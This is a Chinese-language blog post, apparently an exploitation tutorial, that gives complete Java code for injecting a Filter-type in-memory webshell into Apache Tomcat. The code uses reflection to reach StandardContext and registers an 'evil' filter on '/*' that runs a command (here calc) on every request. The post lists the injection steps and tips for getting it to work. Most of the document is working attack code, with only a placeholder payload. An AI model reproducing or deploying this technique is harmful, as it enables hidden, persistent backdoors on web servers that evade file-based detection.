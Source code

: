 ﻿---
title: 手写一个Tomcat Filter类型内存马
date: 2025-04-14 10:33:52
tags:
- 内存马
- tomcat
- filter
categories:
  - [漏洞利用]
description: 本文编写了一个常见的Filter内存马
---
```java
 try {
//            获取StandardContext对象
            System.out.println("获取StandardContext对象");
//            Field request = req.getClass().getDeclaredField("request");
//            request.setAccessible(true);
//            Request request1 = (Request) request.get(request);
//            StandardContext context1 = (StandardContext) request1.getContext();
            ServletContext servletContext1 = req.getSession().getServletContext();
            Field context = null;
            context = ApplicationContextFacade.class.getDeclaredField("context");
            context.setAccessible(true);
            Field context2 = ApplicationContext.class.getDeclaredField("context");
            context2.setAccessible(true);
            ApplicationContext applicationContext = (ApplicationContext) context.get(servletContext1);
            StandardContext context1 = (StandardContext) context2.get(applicationContext);

//            将EvilFilter添加到FilterDef
            System.out.println("将EvilFilter添加到FilterDef");
            FilterDef filterDef = new FilterDef();
             Filter evilFilter = new Filter(){
                @Override
                public void doFilter(ServletRequest request, ServletResponse response, FilterChain chain) throws IOException, ServletException {
                    Runtime.getRuntime().exec("calc");
                    chain.doFilter(request, response);
                }

                 @Override
                 public void init(FilterConfig filterConfig) throws ServletException {
//                     init方法必须写，不然会报错
                 }

                 @Override
                 public void destroy() {
//                    destory方法必须写，不然会报错

                 }
             };
            filterDef.setFilter(evilFilter);
            String filterName = "evil";
            filterDef.setFilterName(filterName);
            filterDef.setFilterClass(evilFilter.getClass().getName());
            //将FilterDef添加到FilterDefs
            System.out.println("将FilterDef添加到FilterDefs");
            context1.addFilterDef(filterDef);
//            获取filterConfig并添加到filterConfigs
            System.out.println("获取filterConfig并添加到filterConfigs");
            Constructor<ApplicationFilterConfig> declaredConstructor = ApplicationFilterConfig.class.getDeclaredConstructor(Context.class, FilterDef.class);
            declaredConstructor.setAccessible(true);
//            System.out.println(1);
            ApplicationFilterConfig applicationFilterConfig = declaredConstructor.newInstance(context1, filterDef);
            Field filterConfigs = StandardContext.class.getDeclaredField("filterConfigs");
            filterConfigs.setAccessible(true);
//            System.out.println(2);
            Map map = (Map) filterConfigs.get(context1);
            map.put(filterName, applicationFilterConfig);
//            将filterMap添加到StandardContext
            System.out.println("将filterMap添加到StandardContext");

            FilterMap filterMap = new FilterMap();
            filterMap.addURLPattern("/*");
            filterMap.setFilterName(filterName);
            filterMap.setDispatcher(DispatcherType.REQUEST.name());
            context1.addFilterMapBefore(filterMap);
            System.out.println("内存马注入成功");

        } catch (NoSuchFieldException e) {
            e.printStackTrace();
        } catch (InvocationTargetException e) {
            e.printStackTrace();
        } catch (IllegalAccessException e) {
            e.printStackTrace();
        } catch (NoSuchMethodException e) {
            e.printStackTrace();
        } catch (InstantiationException e) {
            e.printStackTrace();
        }
```
要实现一个Filter类型的内存马，必要要完成以下的步骤

- 获取StandardContext对象
- 写一个恶意FIlter
- 将恶意Filter加入到FilterDef中
- 将FIlterDef加入到FilterDefs中
- 将FilterDefs封装到FilterConfig中
- 将FilterCOnfig封装到FilterConfigs中
- 添加FIlter Parttern

首先要获取Standard对象
利用IDEA的Evaluate工具我们可以知道req.getSession().getServletContext()的执行结果是一个ApplicationContextFacade对象，在其中有一个Context属性为APplicationContext类型的对象，这个APplicationContext类型的对象中有有一个属性context为StrandardContext类型的对象，也就是我们需要的。
![在这里插入图片描述](https://i-blog.csdnimg.cn/blog_migrate/b4d18b39f0e89dee214586de0bf6155c.png)
所以我们利用两次反射就可以获取到该StandardContext对象
```java
ServletContext servletContext1 = req.getSession().getServletContext();
Field context = null;
context = ApplicationContextFacade.class.getDeclaredField("context");
context.setAccessible(true);
Field context2 = ApplicationContext.class.getDeclaredField("context");
context2.setAccessible(true);
ApplicationContext applicationContext = (ApplicationContext) context.get(servletContext1);
StandardContext context1 = (StandardContext) context2.get(applicationContext);
```
还有另一种获取到StandardContext对象的方式，可以直接通过request对象获取

```java
Field request = req.getClass().getDeclaredField("request");
request.setAccessible(true);
Request request1 = (Request) request.get(request);
StandardContext context1 = (StandardContext) request1.getContext();
```
嗯，就这么多想说的，后面的看代码就好了，主要就是按照上面的步骤来注入就行了，这里注意恶意的Filter类必须显式的重写init与destory方法，否则你会发现怎么都注入不成功，当然这都是我踩过的坑，浪费了我很多时间。。。


